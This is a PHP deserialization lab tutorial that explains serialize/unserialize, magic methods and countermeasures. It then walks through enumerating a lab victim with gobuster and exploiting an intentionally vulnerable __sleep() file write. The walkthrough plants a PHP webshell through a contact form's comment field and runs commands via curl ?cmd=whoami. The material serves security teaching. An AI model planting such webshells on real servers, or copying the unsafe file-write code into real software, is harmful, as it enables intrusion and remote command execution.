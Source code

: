 ```yaml
---
title: "Deserialization/Serialization Attack"
teaching: 3
exercises: 30
questions:
- "What is deserialization/serialization?"
- "What are the php magic methods?"
- "What are the countermeasures?"
objectives:
- "Describe deserialization attacks."
- "Understand simple exploit."
- "Write code that avoid deserialization attacks."
---
```



## What is deserialization/serialization?

Serialization is the process of turning some object into a data format that can be restored later.
People often serialize objects in order to save them to storage, or to send as part of
communications. In php, the code looks like this: serialize(mixed $value): string

Deserialization is the reverse of that process, taking data structured from some format, and
rebuilding it into an object. Today, the most popular data format for serializing data is JSON.
Before that, it was XML. In php, the code looks like this:
unserialize(string $data, array $options = []): mixed

![demodiagram](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/e9ac88ff-50bb-4e5e-802b-989fb8f7e830)

## What are the php magic methods?

In PHP, magic methods are special methods that allow you to define custom behavior for certain
actions or events that occur on an object. These methods are automatically called by PHP based
on specific naming conventions, and they override the default behavior of PHP for those actions.

For example, __sleep() is a magic method in PHP that is called automatically when the
serialize() function is called on an object. PHP checks if the class of the object being serialized
has a method named __sleep(). If such a method exists, it is executed before the serialization
process starts. This allows you to define custom logic to prepare the object for serialization, such
as cleaning up sensitive data or performing additional data manipulation.

![deserphp](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/3e84e433-2db1-477f-8e19-357c0508fa42)

The code defines a PHP class called "test" using the "class" keyword. The class has a single
method called "__sleep()". The "__sleep()" method is a magic method in PHP that is
automatically called when you try to serialize an object of this class using the "serialize()"
function.

![desersleep](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/bea89035-748a-4d46-ae38-448ebcfdb8ac)

Within the "__sleep()" method, the code echoes the string "__sleep method called" using the
"echo" statement. This string will be printed when the "__sleep()" method is executed during
serialization.

The "__sleep()" method also returns an empty array using "return array();". In PHP, the purpose
of the "__sleep()" method is to allow you to specify which properties of an object should be
serialized. By returning an array of property names from "__sleep()", you can selectively choose
which properties should be included in the serialized representation of the object. In this case, an
empty array is returned, which means no properties will be serialized. You don’t need to pay
much attention to this property as it does not relate to the attack explained today
"serialize($new_test);"

The "serialize()" function is called with "$new_test" as an argument, which serializes the object
into a string representation. During serialization, PHP automatically calls the "__sleep()" method
of the "test" class, which echoes the string "__sleep method called" and returns an empty array.

## What are the countermeasures?

1. Input Validation: Validate and sanitize all input data, especially data that is being
deserialized. Implement strict input validation to ensure that only expected data types and
formats are accepted. Discard or reject any unexpected or malicious data during
deserialization.

2. Implement Access Controls: Implement access controls and permissions to restrict the
deserialization process to authorized users or systems. Limit the privileges of the
deserialized objects to the minimum necessary for their intended use.

3. Use Secure Serialization Methods: Use secure serialization methods, such as PHP's
"json_encode()" and "json_decode()" functions, which are less prone to deserialization
vulnerabilities compared to other serialization methods like "serialize()" and
"unserialize()".

### Demonstration
1. We will start by first adding the Deserialization Attack application:

![add_app](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/16e609c9-5446-4c6c-b70a-c7885dff74d9)

2. Next, click the View link to go to the application-specific page and start the application containers:

![start](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/5d192067-3366-4c4e-ae9e-106f158a6288)

3. Open the victim terminal and type 'ifconfig' to check the IP address for victim server  

![victim terminal](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/33064a4c-5a86-4e51-bb3c-44a057f0f4e9)



4. launch the hacker’s web interfaces in separate browser tabs by clicking the icon next to the deserialization:

![attacker-link](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f39fc9c6-f46f-4476-84e2-03a2ec342e02)

5. On the deserialization(hacker) vm, open firefox browser, or install any browser you like. Enter http://victim_ip to the URL bar to access the VNC session

![attacker-victim-vnc](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f2223721-b7fd-4914-abb3-825c9de2ec30)

6. Try going through the website like a normal user, is there anywhere you can exploit, anything you can enter?

Then, on the deserialization(hacker) vm. use the command gobuster dir -w /wordlist/wordlist_php -u http://victim_ip:8080 to list the directory and hidden file on the webserver. Feel free to try other web enumeration tools, and use different wordlist as well.

![hacker gobuster](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/hacker%20gobuster.png?raw=true)



7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a new file called debug.php running on the website. To open debug.php, use the command http://victim_ip/debug.php

![webpage-debug](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/1bb997d9-f217-47a0-84de-007e821cc54e)

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
source code of debug.php, you can enter the URL: http://<victim's IP address>:8080/debug.php?read=debug.php to view the source code of the
debug.php.

![debug php sourcecode](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/debug%20php%20sourcecode.png?raw=true)



9. In the source code of debug.php, there are two Get parameters you can manipulate. One is called read and the other is execute. read can let you check the source code of the websites and execute will allow you to execute file contain PHP source code

![gobuster-command-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/45b13c9f-7732-4ad2-b2e0-ae1cebaef628)

10. When you run the gobuster tool, I am sure you have also found another php file called contact.php. contact.php is the file where the website will process the contact information entered by user, we can see the source code of this file by entering the URL: http://<victim's IP address>/debug.php?read=contact.php

![debug sourcecode](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/debug%20sourcecode.png?raw=true)


11. Upon reviewing the source code of contact.php file, what have you found? There is a critical vulnerability in the file, a deserialization vulnerability.

```
<?php
# Omitted some code

$new_customer = new customer;
$new_customer->name = $name;
$new_customer->email = $email;
$new_customer->comment = $comment;
$temp = serialize($new_customer);

# Omitted some code

class customer
{
   public $name;
   public $email;
   public $comment;
   public function __sleep()
   {
      // Write the content to file once the object is serialized
      $filename = $this->name . '_' . $this->email;
      file_put_contents("./user_info/$filename", $this-
>comment, FILE_USE_INCLUDE_PATH);
   }
}
?>
```

12. A closer look at the preceding code reveals that the vulnerability exists in the magic function __sleep() defined in the class customer. The logic in the function __sleep() shows that once an instance of class customer is serialized, it will write a file to a directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
Recall earlier I asked you to find the parameter you can interact with on the website,
there is a webpage where you can enter user defined text. To navigate to this page, enter
the URL http://victim_ip/contact.html to access the page.

![attacker-victim-vnc2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/d97ddab3-76ae-43a0-853a-9f3a63b07f6b)

14. On this page, there are three parameters you can define: name, email, and comment. If you still remember the source code of the contact.php file, you can make an educated guess that the contact.php will handle the post request sent by contact.html form. If you want to verify that, you can also download burpsuites and verify. Or you can also examine the source code of the contact.html page to see where the POST request is sent to.

![demodiagram2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/08579174-32fa-4df9-bcfd-96bb608d5d2b)

15. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
entering all the text, click submit to plant the webshell

![demodiagram3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/47192691-5a79-4f79-88e7-0f2e0384e999)

16. On the attacker VM, use the command curl
http://victim_ip/user_info/test_user.php?cmd=whoami to test whether the planted
webshell is working or not.
You can also try http://victim_ip/user_info/test_user.php?cmd=ifconfig

![result](https://github.com/markyu0401/Deserialization-Attack/blob/main/fig/result%20.png?raw=true)


17. A secure server is running on the Secure server's IP address, you are welcome to try attacking
it, but it does not have the deserialization vulnerability and misconfiguration present on
the victim VM.




